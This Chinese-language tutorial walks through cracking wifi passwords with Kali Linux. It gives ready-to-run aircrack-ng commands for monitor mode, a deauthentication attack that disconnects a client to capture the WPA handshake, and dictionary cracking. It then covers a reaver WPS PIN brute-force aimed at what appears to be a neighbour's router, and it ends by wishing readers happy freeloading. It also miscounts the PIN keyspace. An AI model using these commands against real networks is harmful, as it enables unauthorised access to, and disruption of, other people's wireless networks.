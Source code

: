 # 利用kali破解wifi密码全过程
### 前期准备
1. 电脑
2. USB无线网卡（虚拟机不能调用电脑本机的无线网卡，得另外接）
3. kali系统
4. 靠谱的字典

### 一、暴力破解法
何为暴力破解呢，其实就是一个一个密码试，直到正确的密码为止。

现在的wifi一般加密都是：

1. 不启用安全‍‍‍‍
2. WEP‍‍‍‍
3. WPA/WPA2-PSK（预共享密钥）‍‍‍‍
4. WPA/WPA2 802.1X （radius认证）

#### 开始
+ 进入kali，启动终端，输入：`root@kali:~# airmon-ng`看看网卡信息

![](http://img0.tuicool.com/VR7Jz2.jpg)

+ `airmon-ng start wlan0`监听窗口

![](http://img0.tuicool.com/MriyIz3.jpg)

+ `airodump-ng mon0`扫描wifi信号

![](http://img0.tuicool.com/YJjy63b.jpg)

+ 这是我家wifi：上图可以看出,BSSID是 `00:0F:32:A0:99:DC`,信道（CH）是：1，

输入：`airodump-ng -w freedom -c CH --bssid 00:0F:32:A0:99:DC mon0 --ignore-negative-one`

解释：CH表示信道，信道是多少就填多少，freedom是一会抓握手包的文件名字，他会自动生成一个freedom.cap的文件，这个名字随便你们填什么

![](http://img1.tuicool.com/nI7bae.jpg)
![](http://img0.tuicool.com/vQBjQj.jpg)

`00:0F:32:A0:99:DC  64:5A:04:BB:54:57   -4    0e- 0e     0      400  `

`00:0F:32:A0:99:DC` 这个是路由器的mac

`64:5A:04:BB:54:57` 这个是客户端的mac

+ 重新开一个客户端输入命令：

`aireplay-ng --deaut 10 -a 00:0F:32:A0:99:DC -c 64:5A:04:BB:54:57 mon0 --ignore-negative-one`

![](http://img2.tuicool.com/r2UzeyR.jpg)

掉线了，当我们重新连接抓到握手包

![](http://img1.tuicool.com/biAVVnZ.jpg)

+ 破解握手包：

![](http://img0.tuicool.com/mem2ymR.jpg)

命令如下：

`aircrack-ng -w mi freedom-*.cap`

解释：mi字典名字      `freedom-*.cap`

![](http://img2.tuicool.com/b6n2Eb.jpg)

abc123abc这个就是我的wifi密码

破解完成，成功与否靠强大的字典和运气了，希望各位亲们蹭网愉快！！！

### 二、通过pin码破解
+ Wash 扫描开启WPS的网络。

`wash -i mon1 –C`

![](http://img0.tuicool.com/VvE7RjJ.jpg)

周围没有开启wps功能我wifi，就会出现上图那样，这样咋办呢

不要急，因为有些隐藏了起来，我们直接霸王硬上弓

用前面那个扫wifi的命令：

`airodump-ng mon0`

![](http://img2.tuicool.com/j6jMRz.jpg)

看见圈起来的mac没有,选择一个PWR的值的绝对值小于70的wifi破解

+ 我在这选择的是名字为: FAST_F70E的wifi

就他了：`E4:D3:32:7F:F7:0E  -45        2        0    0   6  54e. WPA2 CCMP   PSK  FAST_F70E`

然后命令如下:

`reaver -i mon0 -b E4:D3:32:7F:F7:0E -a -S -vv`

`E4:D3:32:7F:F7:0E` 这个mac根据路由器的mac更改，我破解的wifi的mac是`E4:D3:32:7F:F7:0E`

![](http://img1.tuicool.com/IZjueiM.jpg)

如图上表示可以破解，开启了wps功能

![](http://img0.tuicool.com/VbANJbZ.jpg)

出现上图这样，就表示不能破解,换其他wifi破解吧孩子

![](http://img0.tuicool.com/QrENbui.jpg)

这样就表示破解出来了

### 小知识
如果密码被改了,你知道他wifi的pin码就用如下命令：`reaver-i mon0 -b MAC -p PIN`

pin码有8位:所以就是10的8次方，要穷举1000000000次

这样pin也是有限制的，比如要被pin出的路由器必须得开启wps功能；貌似现在很多都是防pin路由器或300秒pin限制的。

破解时推荐这个命令：

`reaver -i mon0 -b E4:D3:32:7F:F7:0E -a -S –d9 –t9 -vv`

因为 `–d9 –t9`参数 可以防止pin死路由器。
